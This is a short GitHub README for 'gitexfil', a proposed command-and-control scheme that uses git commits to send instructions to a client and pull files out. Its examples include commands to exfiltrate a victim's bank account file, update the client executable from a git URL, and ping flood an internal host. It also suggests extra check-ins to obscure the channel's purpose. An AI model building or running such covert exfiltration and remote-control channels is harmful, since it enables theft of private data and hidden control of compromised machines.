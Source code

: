 # gitexfil
Exploration into using GIT repository as a means of C&amp;C

Idea here is that client and server utilize GIT as a means of communication and file exfiltration. Example:

Data Exfiltration
Server -> Git Commit #1a2b3c4d5e Comment: download C:\Users\DumbUser\Desktop\Finances\MyBankAccountNumbers.txt
Client <- Git Push file as commit#+filename, so multiple copies of file can be collected w/o clobbering.

Client Update
Server -> Git Commit #dead Comment: update git://github.com/JousterL/gitexfil/newClient.exe
Client <- Git Checkout HEAD -- newClient.exe

Other Actions
Server -> Git Commit #5a4b3c2d1e Comment: ping 172.16.1.1 -t -l 5000
Client <- Git Checkout + Perform Action requested. Return status through comment to commit. Commit will contain random file that will then be deleted on next command.

Halt Actions
Server -> Git Commit #1111111111 Comment: halt
Client <- Git Checkout + Stop all previous actions

Client would do a Git Checkout each x minutes, server would be on demand (per needs of user, perhaps additional checkins to obfuscate purpose?)
